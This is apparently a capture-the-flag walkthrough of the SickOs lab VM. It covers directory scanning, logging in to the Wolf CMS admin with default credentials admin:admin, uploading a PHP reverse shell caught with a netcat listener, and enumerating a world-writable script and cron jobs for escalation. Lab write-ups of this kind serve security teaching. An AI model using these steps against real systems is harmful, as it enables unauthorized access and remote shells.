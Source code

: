 ```
    (Use mode '-w' if you want to scan it anyway)
                                                                               
-----------------
END_TIME: Fri Mar  3 08:21:02 2017
DOWNLOADED: 4612 - FOUND: 7
```
dirb found 7 directories and 2 of them were enabled directory listing but no one was interesting.
I goolgled for admin page of wolfcms and found [this](https://www.wolfcms.org/forum/topic2034.html) quite useful. The discussion told me that there are 2 possible admin pages **/admin** and **/?admin** depend on mod_rewrite was enable or not.
I found http://192.168.159.131/wolfcms/?admin was accessible and for a couple of trying I successfully authenticate by using admin:admin.

There was a page /wolfcms/?/admin/plugin/file_manager to manage file including upload shell.
I used [this reverse shell](http://pentestmonkey.net/tools/web-shells/php-reverse-shell) from pentestmonkey to reverse shell to my listening netcat.
When upload file had been completed. The file will be stored in /wolfcms/public/

To listening reverse shell
```
nc -nvlp 8888
```

Successful exploit when I clicked on http://192.168.159.131/wolfcms/public/php-reverse-shell.php.

## Escalation
I noticed that in /var/www there is a file named **connect.py** and it's content was interesting.
```
$ ls -al
total 24
drwxrwxrwx  3 root root 4096 Dec  6  2015 .
drwxr-xr-x 13 root root 4096 Dec  6  2015 ..
-rwxrwxrwx  1 root root  109 Dec  5  2015 connect.py
-rw-r--r--  1 root root   21 Dec  5  2015 index.php
-rw-r--r--  1 root root   45 Dec  5  2015 robots.txt
drwxr-xr-x  5 root root 4096 Dec  5  2015 wolfcms
$ cat connect.py
#!/usr/bin/python

print "I Try to connect things very frequently\n"
print "You may want to try my services"
```

I just guess it was a cron job. Let check it out: 
```
www-data@SickOs:/var/www$ ls -alR /etc/cron*
ls -alR /etc/cron*
-rw-r--r-- 1 root root  722 Jun 20  2012 /etc/crontab

/etc/cron.d:
total 20
drwxr-xr-x  2 root root 4096 Dec  5  2015 .
drwxr-xr-x 90 root root 4096 Dec 14 20:41 ..
-rw-r--r--  1 root root  102 Jun 20  2012 .placeholder
-rw-r--r--  1 root root   52 Dec  5  2015 automate
-rw-r--r--  1 root root  544 Jul  2  2015 php5

/etc/cron.daily:
total 76
drwxr-xr-x  2 root root  4096 Sep 22  2015 .
drwxr-xr-x 90 root root  4096 Dec 14 20:41 ..
-rw-r--r--  1 root root   102 Jun 20  2012 .placeholder
-rwxr-xr-x  1 root root   633 Jul 24  2015 apache2
-rwxr-xr-x  1 root root   219 Apr 10  2012 apport
-rwxr-xr-x  1 root root 15399 Nov 15  2013 apt
```